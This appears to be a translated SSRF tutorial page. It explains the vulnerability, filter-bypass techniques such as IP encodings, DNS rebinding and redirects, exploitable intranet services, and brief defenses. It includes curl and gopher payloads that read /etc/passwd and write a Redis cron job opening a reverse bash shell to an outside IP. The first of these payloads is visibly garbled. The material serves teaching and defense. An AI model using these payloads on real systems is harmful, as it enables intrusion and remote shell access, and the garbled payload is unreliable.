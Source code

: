 SSRF
========================================

Introduction
----------------------------------------
Server Side Request Forgery (SSRF) refers to an attacker using a server vulnerability to send a constructed request to the server's intranet as the server when he fails to obtain all the server's permissions. SSRF attacks usually target internal systems that are not directly accessible to external networks.

Vulnerability hazards
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SSRF can scan the ports of the external network, the intranet where the server is located, and the local area, attack applications running on the intranet or local area, or use the File protocol to read local files.

Intranet service defense is generally weaker than external network services. Some intranet services do not set permission verification for intranet access for convenience of operation and maintenance. Therefore, when SSRF exists, it usually causes great harm.

How to use
----------------------------------------
There are many forms and different scenarios for SSRF utilization, and different utilization and bypass methods can be used for different scenarios.

Taking curl as an example, you can use the dict protocol to operate Redis, file protocol reading files, gopher protocol rebound shell and other functions. Common Payloads are as follows:

::

Curl -VVV 'Dict: //127.0.0.1: 6379/info'

curl -vvv 'file:///etc/passwd'

# * Note: The link uses single quotes to avoid $ variable issues

curl -vvv 'Gopher: //127.0.0.1: 6379/_*1%0d%0A $ 8%0D%0DFLUSHALL%0D%0D%0A*3%0D%0d%0a $ 3%0D%0D%0D%0D $ 1%0D%0A1%0D% 0A $ 64%0D%0A%0D%0A%0A%0A */1 * * * * BASH -i> & /dev/tcp/103.21.140.84/6789 0> & 1%0a%0a%0A%0A%0A%0D%0A%0D%0D%0A%0D%0A*4%0D%0D $ 6%0D%0CONFIG%0D%0D%0A $ 3%0D%0D%0D%0D%0D%0A $ 3 %0D%0adir%0D%0A $ 16%0D%0A/WER/SPOOL/CRON/%0D %0A*4%0D%0A $ 6%0D%0ACONFIG%0D%0A $ 3%0D%0D%0D%0D%0A $ 10%0D%0DBFILENAME%0D%0D%0A $ 4%0D%0D%0D%0D%0A*1%0D%0a $ 4%0D%0Asave%0D%0AQUIT%0D%0A '

Related hazard functions
----------------------------------------
The dangerous functions involved in SSRF are mainly network access and support pseudo-protocol network reading. Taking PHP as an example, the functions involved include ``file_get_contents()``/`fsocopen()``/`curl_exec()``, etc.

Filter bypass
----------------------------------------

Change the IP address writing method
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Some developers will filter out the intranet IP by regular matching of the passed URL parameters, such as the following regular expression:

- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``

For this filtering, we use the method of adapting the IP to bypass it. For example, the IP address 192.168.0.1 can be rewritten as:

- Eight-digit format: 0300.0250.0.1
- Hexadecimal format: 0xC0.0xA8.0.1
- Decimal integer format: 3232235521
- Hexadecimal integer format: 0xC0A80001
- Merge the last two digits: 1.1.278 / 1.1.755
- Merge the last three digits: 1.278/1.755/3.14159267

In addition, each bit in the IP can be mixed with each bit.

When accessing the rewritten IP address, Apache will report 400 Bad Request, but other services such as Nginx and MySQL can still work normally.

In addition, the IP 0.0.0.0 can be accessed directly to the local area and is usually missed by regular filtering.

Use domain names that resolve to the intranet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
If the server does not first resolve the IP and then filter the intranet address, we can use localhost and other fields to resolve the domain name of the intranet.

In addition, ``xip.io`` provides a convenient service. The subdomain of this website will be parsed to the corresponding IP, such as 192.168.0.1.xip.io, and resolved to 192.168.0.1.

Problems arising from parsing URLs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
In some cases, the backend program may parse the accessed URL and filter the parsed host address. At this time, improper parsing of URL parameters may occur, resulting in the filtering being bypassed.

For example, ``http://www.baidu.com@192.168.0.1/`` When the backend program passes incorrect regular expressions (such as the character content after http to com, that is, www.baidu.com, When parsing the content of the above URL, it is very likely that the host that accesses the URL is www.baidu.com, but in fact, the content requested by this URL is on 192.168.0.1 content.

Use jump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
If the backend server correctly parses the URL host and filters it after receiving the parameters, we can use jump to bypass it.

You can use services such as http://httpbin.org/redirect-to?url=http://192.168.0.1, but since the URL contains an intranet IP address such as 192.168.0.1, it may be expressed regularly. filtering out can be bypassed by short addresses.

Commonly used jumps include 302 jumps and 307 jumps. The difference is that 307 jumps will forward the data in the POST request, etc., but 302 jumps will not.

Through various non-HTTP protocols
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
If the server-side program verifies the protocol used to access the URL, it can be utilized through the non-HTTP protocol.

For example, through gopher, POST or GET requests can be constructed in a url parameter to achieve the purpose of attacking intranet applications. For example, you can use the gopher protocol to attack Redis services with the intranet, and you can use the following URL:

::

gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

In addition to the gopher protocol, the File protocol is also a commonly used protocol in SSRF. This protocol is mainly used to access files in the local computer. We can access the computer locality through a format like ``file:///path/to/file`` document. Using the file protocol can avoid filtering of the accessed IP by the server program. For example, we can access the content of 1.txt on D disk through ``file:///d:/1.txt``.

DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
A common protection idea is: for the URL parameters requested by the user, the server will first perform DNS resolution on it, and then judge the IP address returned by the DNS server. If it is on the blacklist, the request will be prohibited.

However, during the whole process, there is a time difference between requesting the DNS service for the first time for domain name resolution to the second server to request the URL. Using this time difference, a DNS rebinding attack can be carried out.

To complete the DNS rebinding attack, we need a domain name and specify the resolution of this domain name to our own DNS Server, write a resolution service on our controllable DNS Server, and set the TTL time to 0. This way you can attack, the complete attack process is:

- The server side obtains URL parameters, performs the first DNS resolution, and obtains an IP that is not an intranet
- For judgment on the obtained IP, if it is found to be a non-blacklist IP, it will pass verification
- The server side accesses the URL. Since the TTL set by the DNS server is 0, DNS resolution is performed again. This time the DNS server returns the intranet address.
- Since verification has been bypassed, the server side returns the result of accessing intranet resources.

With the continuous development of DNS Rebinding technology, there are also some new attack methods:

- Reply multiple IP requests at the same time in one response, including public and intranet IPs
- For the case where the browser requests both A and AAAA records, first reply to the legal IPv6 address, and then reply to the intranet IPv4 address after a period of time

Use IPv6
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Some services do not consider IPv6, but the intranet supports IPv6, so you can use the local IP of IPv6 such as ``[::]``` ``0000::1`` or the intranet domain name of IPv6 to bypass filtering.


Usage IDN
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Some network access tools such as Curl support internationalized Domain Name (IDN). Internationalized domain names are also called special character domain names, which refer to Internet domain names composed of partially or completely special characters or letters.

Among these characters, some characters will make an equivalent conversion when accessed, for example ``ⓔⓧⓐⓐⓜⓟⓛⓔ.ⓒⓞⓜ`` is equivalent to ``example.com``. In this way, characters such as ``① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩`` can be used to bypass the intranet restrictions.

Possible points of utilization
----------------------------------------

Intranet service
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Apache Hadoop remote command execution
- axis2-admin deployment server command execution
- Confluence SSRF
- counchdb WEB API remote command execution
- dict
- docker API remote command execution
- Elasticsearch engine Groovy script command execution
- ftp/ftps (FTP blasting)
- Indirect command execution of glassfish arbitrary file reading and war file deployment
- gopher
- HFS remote command execution
- http、https
- imap/imaps/pop3/pop3s/smtp/smtps (explosive email username and password)
- Java debugging interface command execution
- JBOSS remote Invoker war command execution
- Jenkins Scripts interface command execution
- ldap
- mongodb
- php_fpm/fastcgi command execution
- rtsp - smb/smbs (connect to SMB)
- sftp
- ShellShock command execution
- Struts2 command execution
- telnet
- tftp (UDP protocol extension)
- Tomcat command execution
- WebDav PUT uploads any file
- WebSphere Admin can deploy war indirect command execution
- zentoPMS remote command execution

Redis Utilization
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Write ssh public key
- Write crontab
- Write WebShell
- Windows write startup item
- Master-slave copy loading .so files
- Master-slave copy and write lossless files

Cloud host
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
In cloud environments such as AWS and Google, by accessing the metadata API or management API of the cloud environment, sensitive information and other effects can be achieved in some cases.

Defense method
----------------------------------------
- Filter the returned information
- Unified error message
- Restrict requested ports
- Prohibit uncommonly used protocols
- For DNS Rebinding, consider using DNS cache or Host whitelist

Reference link
----------------------------------------
- `SSRF vulnerability analysis and utilization <http://www.91ri.org/17111.html>`_
- `A New Era Of SSRF <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>`_
- `php ssrf technique <https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51>`_
- `Talk about how to reject SSRF vulnerability in Python development <https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html>`_
- `SSRF Tips <http://blog.safebuff.com/2016/07/03/SSRF-Tips/>`_
- `SSRF in PHP <https://joychou.org/web/phpssrf.html>`_
